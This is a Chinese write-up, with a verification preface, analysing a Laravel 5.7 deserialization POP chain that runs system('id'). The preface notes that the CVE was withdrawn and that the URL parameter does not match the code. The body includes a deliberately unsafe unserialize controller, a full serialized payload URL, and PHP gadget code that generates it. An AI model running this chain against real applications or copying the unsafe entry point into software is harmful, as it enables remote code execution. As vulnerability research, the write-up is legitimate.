## 2026-10-03 编号核验

CNA 已撤销 CVE-2019-9081，理由为进一步调查未确认安全问题。本页保留为 Laravel / Mockery 反序列化链分析：作者明确没有找到框架触发入口，实验人工增加了不安全 unserialize 入口，因此不能据此认定 Laravel 5.7 默认存在远程代码执行漏洞。

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：只Laravel5.7，无固定补丁；依赖Mockery测试代码、应用已有不安全unserialize

代码与实验材料：手工TaskController读p调用unserialize，GenericUser+bindings链详细；实际演示URL参数code与p不一致

来源证据范围：laworigin原研究及先知5510，无官方安全公告

- **适用与权限边界（1）**：默认远程漏洞结论超出证据；依据：作者明确没有找到Laravel触发点而人工新增入口；只能证明POP链，不证明默认5.7可远程执行。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（2）**：示例参数和解释错误；依据：控制器用$_GET\[p\]、末文说传p，URL却?code=；将容器正常接口绑定机制称本意实例化接口的错误，混淆设计行为与不可信对象注入。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **事实待核（3）**：版本依赖/排版缺失；依据：Mockery/Faker或GenericUser依赖版本未固定，多数源码只图且图片后重复尾路径，缺源码锁定版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2019-9081）Laravel 5.7 反序列化rce
========================================

一、漏洞简介
------------

Laravel Framework
5.7.x版本中的Illuminate组件存在安全漏洞。远程攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

Laravel 5.7

三、复现过程
------------

### 漏洞分析

##### 漏洞demo

由于我没有找到laravel框架触发反序列化的点，因此我们需要自己构造一个漏洞demo，用作poc的验证。

在`routes/web.php`文件中添加这样一条路由记录:`Route::get('/index', 'TaskController@index');`

接下来在`app/Http/Controllers`文件夹下创建文件`TaskController.php`，源码如下:

    <?php
    namespace App\Http\Controllers;

    class TaskController
    {
        public function index(){
            unserialize($_GET['p']);
            return "22222";
        }
    }
    ?>

首先我们来对比一下laravel v5.6和laravel
v5.7下`vendor/laravel/framework/src/Illuminate/Foundation/Testing`文件夹中的区别：

Laravel5.7反序列化rce/media/rId26.png)

Laravel5.7反序列化rce/media/rId27.png)

可以看到在v5.7版本中多了一个`PendingCommand.php`文件。我们再来看看官方文档对于这个文件的解释。

Laravel5.7反序列化rce/media/rId28.png)

其主要功能是用作命令执行，并且获取输出内容。

阅读代码我们可以看到`PendingCommand.php`文件定义了`PendingCommand`类，该类存在`__destruct`方法，忘了哪位大牛说过，`__destruct`永远是反序列化漏洞的最佳攻击点。而在`PendingCommand`类的`__destruct`方法中调用了该类的`run`方法。在`run`方法的头顶，赫然写着`Execute the command.`。攻击思路很明显了，通过反序列化触发`PendingCommand`类的`__destruct`析构函数，进而调用其`run`方法实现代码执行。接下来就要开始构造pop链。

在构造payload之前，我先简单的介绍一下`PendingCommand`类中的几个重要属性：

    $this->app;         //一个实例化的类 Illuminate\Foundation\Application
    $this->test;        //一个实例化的类 Illuminate\Auth\GenericUser
    $this->command;     //要执行的php函数 system
    $this->parameters;  //要执行的php函数的参数  array('id')

我们传入payload看看具体流程走向。

Laravel5.7反序列化rce/media/rId29.png)

将我们构造好的序列化数据通过参数p传入，查看调用栈可以看到，在进行反序列化时，成功进入`PendingCommand`类的析构函数。并且这里的`$this->hasExecuted`默认定义就是false。导致我们很顺利进入`$this->run()`方法。`run`方法的代码如下:

Laravel5.7反序列化rce/media/rId30.png)

我们首先需要进入`$this->mockConsoleOutput()`方法。这个方法的也是困扰了我很久，差一点没能绕过这个方法。最后是在吃完晚饭之后，灵光一现突然想到bypass的方法。我们跟进看看代码逻辑。

Laravel5.7反序列化rce/media/rId31.png)

在`$this->mockConsoleOutput()`使用`Mockery::mock`实现对象模拟，具体如何实现我们不去关心，目前的首要任务是顺利走通这段代码。我们将关注点放在`$this->createABufferedOutputMock()`，继续跟进`$this->createABufferedOutputMock()`函数。

Laravel5.7反序列化rce/media/rId32.png)

这里又进行一次对象模拟，但是着不重要，我们重点看我打上箭头的地方。要求获取`$this->test`这个类中的`expectedOutput`属性，并且遍历该属性。按道理来说`$this->test`这个类应该存在`expectedOutput`属性，我们才能顺利地执行下文代码。很不幸，在我们可以实例化的类中，没有一个类存在`expectedOutput`属性。只有一些测试类才有这个属性。这也是困扰我很久的地方。

但我们仔细看看这段代码会发现，我们需要的只是一个返回内容而已，只需要有返回内容，使得代码进入循环流程我们便能走通这段代码。因此我们可以利用`__get`魔术方法来返回我们需要的内容。我这里选取的是`Illuminate\Auth\GenericUser`类。其`__get`魔术方法的逻辑如下：

Laravel5.7反序列化rce/media/rId33.png)

而`$this->attributes`通过反序列化是可控的，因此我们可以构造`$this->attributes`键名为`expectedOutput`的数组。这样一来`$this->test->expectedOutput`就会返回`$this->attributes`中键名为`expectedOutput`的数组。`$this->createABufferedOutputMock()`的代码也就顺利走通了。

Laravel5.7反序列化rce/media/rId34.png)

接下来回到`$this->mockConsoleOutput()`方法，可以看到这里有一段和`$this->createABufferedOutputMock()`中相似的代码，我们的目的只是走通这段代码，进入下面的流程，因此不需要关心他具体的实现，只要能顺利执行，不报错，不产生异常就行。使用和`$this->createABufferedOutputMock()`同样的绕过办法，在`$this->attributes`中定义键名为`expectedQuestions`的数组即可。

Laravel5.7反序列化rce/media/rId35.png)

之后，我们继续运行就能走出`$this->mockConsoleOutput()`方法。接下来，就是最关键的产生漏洞的代码点。

`$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);`。

这行代码相当令人费解，我为了更加直观的表述，新增两个变量。

    $aaa=Kernel::class;
    $fff=$this->app[Kernel::class];
    $exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);

`Kernel::class`在这里是一个固定值`Illuminate\Contracts\Console\Kernel`，我们不去管他。重点是`$this->app[Kernel::class]`这句代码。跟踪这句代码，我们会得到以下调用栈：

Laravel5.7反序列化rce/media/rId36.png)

通过整体跟踪，猜测开发者的本意应该是实例化`Illuminate\Contracts\Console\Kernel`这个类，但是在`getConcrete`这个方法中出了问题，导致可以利用php的反射机制实例化任意类。问题出在`vendor/laravel/framework/src/Illuminate/Container/Container.php`的704行，可以看到这里判断`$this->bindings[$abstract])`是否存在，若存在则返回`$this->bindings[$abstract]['concrete']`。

`$bindings`是`vendor/laravel/framework/src/Illuminate/Container/Container.php`文件中`Container`类中的属性。因此我们只要寻找一个继承自`Container`的类，即可通过反序列化控制
`$this->bindings`属性。而`Illuminate\Foundation\Application`恰好继承自`Container`类，这就是我选择`Illuminate\Foundation\Application`对象放入`$this->app`的原因。由于我们已知`$abstract`变量为`Illuminate\Contracts\Console\Kernel`，所以我们只需通过反序列化定义`Illuminate\Foundation\Application`的`$bindings`属性存在键名为`Illuminate\Contracts\Console\Kernel`的二维数组就能进入该分支语句，返回我们要实例化的类名。在这里返回的是`Illuminate\Foundation\Application`类。

Laravel5.7反序列化rce/media/rId37.png)

之后便步出`$this->getConcrete`方法。使用`$this->isBuildable`方法，判断是否可进行实例化。

Laravel5.7反序列化rce/media/rId38.png)

具体判断逻辑如下：

Laravel5.7反序列化rce/media/rId39.png)

很明显我们现在不满足条件，因此进入`$this->make`方法，同样的流程再循环一遍。第二遍循环时，在`$this->getConcrete`环节还是获取我们定义的`Illuminate\Foundation\Application`，这样一来使得`$this->isBuildable`中的`$concrete === $abstract`条件成立。因此我们进入`$this->build`方法。

Laravel5.7反序列化rce/media/rId40.png)

在`$this->build`方法中，就能看到使用`ReflectionClass`反射机制，实例化我们传入的类。

Laravel5.7反序列化rce/media/rId41.png)

成功实例化类，最后逐层返回我们创建的对象。最后我们可以知道通过我们传入的payload，`$this->app[Kernel::class]`最终返回的内容就是我们创建的`Illuminate\Foundation\Application`类的对象。

Laravel5.7反序列化rce/media/rId42.png)

Laravel5.7反序列化rce/media/rId43.png)

继续往下跟踪，已经接近胜利了。在返回一个对象之后，又调用了`call`方法。实际上`Illuminate\Foundation\Application`类没有`call`方法，但是它的父类`Illuminate\Container\Container`是有`call`方法的。因此，在这里会直接跳转到`Illuminate\Container\Container`类中的`call`方法。

Laravel5.7反序列化rce/media/rId44.png)

跟进`BoundMethod`对象的`call`方法。

Laravel5.7反序列化rce/media/rId45.png)

不满足第一个分支语句，直接进入第二行。前面的`static::callBoundMethod`只是判断我们的`$callback`是否为数组。这个不重要，我们关注后面的匿名函数。这个匿名函数直接调用`call_user_func_array`，并且第一个参数我们可控，参数值为`system`，第二个参数由`static::getMethodDependencies`方法返回。跟进`static::getMethodDependencies`方法看看。

Laravel5.7反序列化rce/media/rId46.png)

`static::getCallReflector($callback)`这句用于利用反射获取`$callback`的对象，继续往下执行`static::addDependencyForCallParameter`，会对`$callback`的对象添加一些参数，但是这些不重要。最后一行才是关键。

最后将我们传入的`$parameters`参数数组和`$dependencies`数组合并，`$dependencies`数组为空。

最后在`BoundMethod`对象的`call`方法中我们相当于执行了以下代码:

    call_user_func_array('system',array('id'))

此时run函数中\$exitcode值即为命令的执行结果

Laravel5.7反序列化rce/media/rId47.png)

    payload：
    http://www.0-sec.org/laravel-5.7/public/index.php/index?code=O%3A44%3A%22Illuminate%5CFoundation%5CTesting%5CPendingCommand%22%3A4%3A%7Bs%3A10%3A%22%00%2A%00command%22%3Bs%3A6%3A%22system%22%3Bs%3A13%3A%22%00%2A%00parameters%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A2%3A%22id%22%3B%7Ds%3A6%3A%22%00%2A%00app%22%3BO%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3A2%3A%7Bs%3A22%3A%22%00%2A%00hasBeenBootstrapped%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00bindings%22%3Ba%3A1%3A%7Bs%3A35%3A%22Illuminate%5CContracts%5CConsole%5CKernel%22%3Ba%3A1%3A%7Bs%3A8%3A%22concrete%22%3Bs%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3B%7D%7D%7Ds%3A4%3A%22test%22%3BO%3A27%3A%22Illuminate%5CAuth%5CGenericUser%22%3A1%3A%7Bs%3A13%3A%22%00%2A%00attributes%22%3Ba%3A2%3A%7Bs%3A14%3A%22expectedOutput%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7Ds%3A17%3A%22expectedQuestions%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7D%7D%7D%7D

Laravel5.7反序列化rce/media/rId48.png)

### POC

    <?php
    //gadgets.php
    namespace Illuminate\Foundation\Testing{
        class PendingCommand{
            protected $command;
            protected $parameters;
            protected $app;
            public $test;

            public function __construct($command, $parameters,$class,$app)
            {
                $this->command = $command;
                $this->parameters = $parameters;
                $this->test=$class;
                $this->app=$app;
            }
        }
    }

    namespace Illuminate\Auth{
        class GenericUser{
            protected $attributes;
            public function __construct(array $attributes){
                $this->attributes = $attributes;
            }
        }
    }

    namespace Illuminate\Foundation{
        class Application{
            protected $hasBeenBootstrapped = false;
            protected $bindings;

            public function __construct($bind){
                $this->bindings=$bind;
            }
        }
    }
    ?>
    <?php
    //chain.php
    include("gadgets.php");

    echo urlencode(serialize(new Illuminate\Foundation\Testing\PendingCommand("system",array('id'),new Illuminate\Auth\GenericUser(array("expectedOutput"=>array("0"=>"1"),"expectedQuestions"=>array("0"=>"1"))),new Illuminate\Foundation\Application(array("Illuminate\Contracts\Console\Kernel"=>array("concrete"=>"Illuminate\Foundation\Application"))))));
    ?>

运行chain.php文件即可得到payload，将payload传入p参数即可。

参考链接
--------

> https://laworigin.github.io/2019/02/21/laravelv5-7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96rce/
>
> https://xz.aliyun.com/t/5510\#toc-1
